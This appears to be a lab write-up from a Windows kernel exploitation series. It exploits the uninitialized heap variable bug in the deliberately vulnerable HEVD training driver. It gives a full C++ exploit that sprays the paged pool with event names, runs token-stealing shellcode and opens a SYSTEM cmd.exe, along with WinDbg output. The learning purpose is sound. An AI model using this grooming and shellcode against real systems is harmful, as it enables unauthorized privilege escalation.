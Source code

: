 ```yaml
---
title: Windows Kernel Exploitation 0x06 | Uninitialized Heap Variable
published: true
tags: [ "kernelexploitation", "windows", "lab" ]
image: assets/previews/16.jpg
layout: page
pagination: 
  enabled: true
---
```


[write-up](https://rootkits.xyz/blog/2018/03/kernel-uninitialized-heap-variable/)

[write-up 2](https://dokydoky.tistory.com/445)

[exploit](https://github.com/ThunderJie/Windows-Kernel-Exploit/blob/master/HEVD/Uninitialized-Heap-Variable/UninitializedHeapVariable/UninitializedHeapVariable.c)

[original file renamed to UninitializedMemoryPagedPool.c](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Driver/HEVD/Windows/UninitializedMemoryPagedPool.c)


## [](#header-2)Now our way is Uninitialized Heap Variable

* * bp HEVD!TriggerUninitializedHeapVariable
* * bp HEVD!TriggerUninitializedHeapVariable+119

Simply the same idea as in the previous one, but now it's from heap

I'll use [this](https://dl.packetstormsecurity.net/papers/general/windows-kernel-exploitation-tutorial-part-7-uninitialized-heap-variable.pdf) post to recreate the exploit in c++ and get some instructions in the process

Simple pattern as in first parts:

```cpp
#include <stdio.h>
#include <Windows.h>

HANDLE hDevice;

int main() {

  hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",
    GENERIC_READ | GENERIC_WRITE,
    NULL,
    NULL,
    OPEN_EXISTING,
    NULL,
    NULL);

  printf("[+] Start to get HANDLE...\n");
  if (hDevice == INVALID_HANDLE_VALUE || hDevice == NULL)
  {
    return FALSE;
  }
  printf("[+] Success to get HANDLE!\n");

  DWORD bReturn = 0;
  char buf[4] = { 0xb0, 0xb0, 0xd0, 0xba };

  DeviceIoControl(hDevice, 0x222033, buf, 4, NULL, 0, &bReturn, NULL);

  return 0;
}

```

```js
[+] Pool Tag: 'kcaH'
[+] Pool Type: PagedPool
[+] Pool Size: 0xF0
[+] Pool Chunk: 0xAC085188
[+] UserValue: 0xBAD0B0B0
[+] UninitializedHeapVariable Address: 0xAB83BA98
[+] Triggering Uninitialized Heap Variable Vulnerability
[+] UninitializedHeapVariable->Value: 0xBAD0B0B0
[+] UninitializedHeapVariable->Callback: 0x905ACD58

kd> u 0x905ACD58
905acd58 688ad95a90      push    offset HEVD! ?? ::NNGAKEGL::`string' (905ad98a)
905acd5d e8a4c2ffff      call    HEVD!DbgPrint (905a9006)
905acd62 59              pop     ecx
```

Everything is okay, our template is ready

Let's provide anything except for 0xBAD0B0B0 value:

```js
[+] Pool Tag: 'kcaH'
[+] Pool Type: PagedPool
[+] Pool Size: 0xF0
[+] Pool Chunk: 0x8CD65960
[+] UserValue: 0x41414141
[+] UninitializedHeapVariable Address: 0xAB96DA98
[+] Triggering Uninitialized Heap Variable Vulnerability
[+] UninitializedHeapVariable->Value: 0x00000000
[+] UninitializedHeapVariable->Callback: 0x557BBF9D
[-] Exception Code: 0xC0000005
```

Looks like the same previous post about Pool Feng-Shui where we used CreateEvent's

Most important thing to note here is that even though the event object itself is allocated to Non-Paged
Pool, the last parameter, lpName of type LPCTSTR is actually allocated on the Paged Pool.

And we can actually define what it contains and its length.

Important moments to notice:

* We’d be grooming the Lookaside list, which are lazy activated only two minutes after the boot.
* Maximum Blocksize for Lookaside list is 0x20, and it only manages upto 256 chunks, after that, any
additional chunks are managed by the ListHead.
* We need to allocate 256 objects of same size and then freeing them. If the list is not populated, then
the allocation would come from ListHead list.
* We need to make sure that the string for the object name is random for each call to object constructor,
as if same string is passed to consecutive calls to object constructor, then only one Pool chuck will be
served for all further requests.
* We also need to make sure that our lpName shouldn’t contain any NULL characters, as that would
change the length of the lpName, and the exploit would fail. (important, here VirtualAlloc wouldn't work)

We’d be giving lpName a size of 0xF0, the header size would be 0x8, total 0xF8 chunks. The shellcode we’d
borrow from our previous tutorial


Thanks Thunder_J for his code

```js
[+] Pool Tag: 'kcaH'
[+] Pool Type: PagedPool
[+] Pool Size: 0xF0
[+] Pool Chunk: 0xAE8BCD40
[+] UserValue: 0x41414141
[+] UninitializedHeapVariable Address: 0x8FBD5A98
[+] Triggering Uninitialized Heap Variable Vulnerability
[+] UninitializedHeapVariable->Value: 0x00000000
[+] UninitializedHeapVariable->Callback: 0x0015F990

kd> !pool 0xAE8BCD40
Pool page ae8bcd40 region is Unknown
 ae8bc000 size:   30 previous size:    0  (Allocated)  CMVa
 ae8bc030 size:    8 previous size:   30  (Free)       SeAt
...
 ae8bc7c8 size:  570 previous size:  128  (Allocated)  Toke (Protected)
*ae8bcd38 size:   f8 previous size:  570  (Allocated) *Hack
    Owning component : Unknown (update pooltag.txt)

kd> dd ae8bcd38
ReadVirtual: ae8bcd38 not properly sign extended
ae8bcd38  061f02ae 6b636148 00000000 0015f990
ae8bcd48  41414141 41414141 41414141 41414141
ae8bcd58  41414141 41414141 41414141 41414141
ae8bcd68  41414141 41414141 41414141 41414141
ae8bcd78  41414141 41414141 41414141 41414141
ae8bcd88  41414141 41414141 41414141 41414141
ae8bcd98  41414141 41414141 41414141 41414141
ae8bcda8  41414141 41414141 41414141 41414141

kd> u 0015f990
0015f990 60              pushad
0015f991 64a124010000    mov     eax,dword ptr fs:[00000124h]
0015f997 8b4050          mov     eax,dword ptr [eax+50h]
0015f99a 89c1            mov     ecx,eax
0015f99c 8b98f8000000    mov     ebx,dword ptr [eax+0F8h]
```

```cpp
#include <stdio.h>
#include <Windows.h>

HANDLE hDevice = NULL;

static VOID CreateCmd() {
  STARTUPINFO si = { sizeof(si) };
  PROCESS_INFORMATION pi = { 0 };
  si.dwFlags = STARTF_USESHOWWINDOW;
  si.wShowWindow = SW_SHOW;
  WCHAR wzFilePath[MAX_PATH] = { L"cmd.exe" };
  BOOL bReturn = CreateProcessW(NULL, wzFilePath, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
  if (bReturn) CloseHandle(pi.hThread), CloseHandle(pi.hProcess);
}

int main() {
  // Get HANDLE
  hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",
    GENERIC_READ | GENERIC_WRITE,
    NULL,
    NULL,
    OPEN_EXISTING,
    NULL,
    NULL);

  printf("[+]Start to get HANDLE...\n");
  if (hDevice == INVALID_HANDLE_VALUE || hDevice == NULL) {
    printf("[-]Failed to get HANDLE!\n");
    exit(0);
  }
  printf("[+]Success to get HANDLE!\n");

  HANDLE Event_OBJECT[0x1000];

  char Shellcode[] = (
    "\x60"
    "\x64\xA1\x24\x01\x00\x00"
    "\x8B\x40\x50"
    "\x89\xC1"
    "\x8B\x98\xF8\x00\x00\x00"
    "\xBA\x04\x00\x00\x00"
    "\x8B\x80\xB8\x00\x00\x00"
    "\x2D\xB8\x00\x00\x00"
    "\x39\x90\xB4\x00\x00\x00"
    "\x75\xED"
    "\x8B\x90\xF8\x00\x00\x00"
    "\x89\x91\xF8\x00\x00\x00"
    "\x61"
    "\xC3"
    );

  //LPVOID Shellcode_Addr = VirtualAlloc(NULL,
  //  sizeof(Shellcode),
  //  MEM_COMMIT | MEM_RESERVE,
  //  PAGE_EXECUTE_READWRITE);

  //memcpy(Shellcode_Addr, Shellcode, sizeof(Shellcode));


  DWORD bReturn = 0;
  char lpName[0xf0] = { 0 };
  char buf[4] = { 0x41, 0x41, 0x41, 0x41 };

  memset(lpName, 0x41, 0xf0);

  printf("lpName is in 0x%p\n", lpName);
  for (int i = 0; i < 256; i++) {
    *(PDWORD)(lpName + 0x4) = (DWORD)&Shellcode;

    *(PDWORD)(lpName + 0xf0 - 4) = 0;
    *(PDWORD)(lpName + 0xf0 - 3) = 0;
    *(PDWORD)(lpName + 0xf0 - 2) = 0;
    *(PDWORD)(lpName + 0xf0 - 1) = i;
    Event_OBJECT[i] = CreateEventW(NULL, FALSE, FALSE, (LPCWSTR)lpName);
  }

  for (int i = 0; i < 256; i++) {
    CloseHandle(Event_OBJECT[i]);
    i += 4;
  }

  DeviceIoControl(hDevice, 0x222033, buf, 4, NULL, 0, &bReturn, NULL);
  //__debugbreak();

  printf("[+]Start to Create cmd...\n");
  CreateCmd();
  system("pause");

  return 0;
}
```